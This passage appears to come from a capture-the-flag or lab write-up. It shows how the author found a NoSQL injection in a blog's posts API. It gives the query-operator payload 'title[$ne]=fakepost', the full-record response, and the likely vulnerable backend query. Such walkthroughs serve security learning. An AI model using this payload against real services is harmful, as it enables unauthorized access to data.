 ## Finding a Method of Attack
---

A natural next step is to use SQL injection to try and retrieve more information from the API. I tried going through some SQLi payloads before concluding it was a dead end.

Something unusual about the API response is that the id field is named `_id` instead of `id`. This is a convention I've seen used in MongoDB, and it is possible that the database is not SQL at all!

We can test this theory by querying the posts API with a NoSQL injection attack.

`GET /api/posts?title[$ne]=fakepost`

Response:
```json
[
    {
        "_id":"5faff099307b240008a4365a",
        "title":"Blockchain for dummies",
        "content":"Collaboratively administrate..."
    },
    {
        "_id":"5faff099307b240008a4365b",
        "title":"How to get free bitcoins",
        "content":"Bring to the table..."
    },
    {
        "_id":"5faff099307b240008a4365c",
        "title":"My Favorite Tool: cipsum.com",
        "content":"Leverage agile frameworks..."
    },
    {
        "_id":"5faff099307b240008a4365d",
        "title":"manifesto",
        "content":"Another one got caught today..."
    },
    {
        "_id":"5faff099307b240008a4365e",
        "title":"test",
        "content":"It works!"
    }
]
```
Woah, all the records were returned! Looks like there is no SQL injection here, but there is a NoSQL injection 😎👍.

But why did this work? We can assume that on the backend, our request is being processed something like this:
```js
db.collection.find({ 
    "title": req.query.title
 });
```
